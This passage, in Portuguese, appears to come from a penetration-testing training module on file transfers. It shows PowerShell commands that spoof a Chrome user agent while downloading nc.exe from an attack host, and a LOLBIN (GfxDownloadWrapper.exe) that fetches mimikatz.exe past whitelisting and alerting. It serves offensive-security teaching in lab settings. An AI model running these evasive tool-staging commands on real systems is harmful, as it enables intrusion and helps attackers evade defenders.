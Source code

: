 ## Alterando o agente do usuário

Se administradores ou defensores diligentes tiverem colocado na lista negra qualquer um desses agentes de usuários, [Invoke-WebRequest](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.1) contém um parâmetro UserAgent, que permite alterar o agente do usuário padrão para um emulador do Internet Explorer, Firefox, Chrome, Opera ou Safari. Por exemplo, se o Chrome for usado internamente, definir esse agente do usuário poderá fazer com que a solicitação pareça legítima.

#### Listando agentes de usuários


```powershell-session
PS C:\htb>[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl

Name       : InternetExplorer
User Agent : Mozilla/5.0 (compatible; MSIE 9.0; Windows NT; Windows NT 10.0; en-US)

Name       : FireFox
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) Gecko/20100401 Firefox/4.0

Name       : Chrome
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6 (KHTML, like Gecko) Chrome/7.0.500.0
             Safari/534.6

Name       : Opera
User Agent : Opera/9.70 (Windows NT; Windows NT 10.0; en-US) Presto/2.2.1

Name       : Safari
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/533.16 (KHTML, like Gecko) Version/5.0
             Safari/533.16
```

Invocando Invoke-WebRequest para baixar nc.exe usando um agente de usuário do Chrome:

#### Solicitação com o Chrome User Agent

```powershell-session
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "C:\Users\Public\nc.exe"
```

```shell-session
casluxd@htb[/htb]$ nc -lvnp 80

listening on [any] 80 ...
connect to [10.10.10.32] from (UNKNOWN) [10.10.10.132] 51313
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6
(KHTML, Like Gecko) Chrome/7.0.500.0 Safari/534.6
Host: 10.10.10.32
Connection: Keep-Alive
```

## LOLBAS / GTFOBins

O whitelisting de aplicativos pode impedir que você use o PowerShell ou Netcat, e o registro da linha de comando pode alertar os defensores sobre sua presença. Nesse caso, uma opção pode ser usar um "LOLBIN" ( vivendo fora do binário terrestre ), também conhecido como "binários de confiança equivocados." Um exemplo de LOLBIN é o driver gráfico Intel para Windows 10 ( GfxDownloadWrapper.exe ), instalado em alguns sistemas e contém funcionalidade para baixar arquivos de configuração periodicamente. Essa funcionalidade de download pode ser chamada da seguinte maneira:

#### Transferindo arquivo com o GfxDownloadWrapper.exe

```powershell-session
PS C:\htb> GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```

Esse binário pode ser permitido executar com lista de permissões de aplicativos e ser excluído do alerta. Outros binários mais comumente disponíveis também estão disponíveis e vale a pena verificar o [LOLBAS](https://lolbas-project.github.io/) projeto para encontrar um binário adequado para "download de arquivos" que exista em seu ambiente. O equivalente do Linux é o [GTFOBins](https://gtfobins.github.io/) projeto e definitivamente também vale a pena conferir. No momento da redação deste artigo, o projeto GTFOBins fornece informações úteis sobre quase 40 binários comumente instalados que podem ser usados para executar transferências de arquivos.

## Pensamentos finais

Como vimos neste módulo, existem muitas maneiras de transferir arquivos de e para o nosso host de ataque entre os sistemas Windows e Linux. Vale a pena praticar o maior número possível deles em todos os módulos no caminho do Penetration Tester. Tem um shell da web em um alvo? Tente baixar um arquivo para o destino para enumeração adicional usando o Certutil. Precisa baixar um arquivo do destino? Experimente um servidor SMB de empacotamento ou um servidor web Python com recursos de upload. Volte a este módulo periodicamente e esforce-se para usar todos os métodos ensinados de alguma maneira. Além disso, reserve um tempo sempre que estiver trabalhando em um destino ou laboratório para procurar um LOLBin ou GTFOBin com o qual nunca trabalhou antes para atingir suas metas de transferência de arquivos.
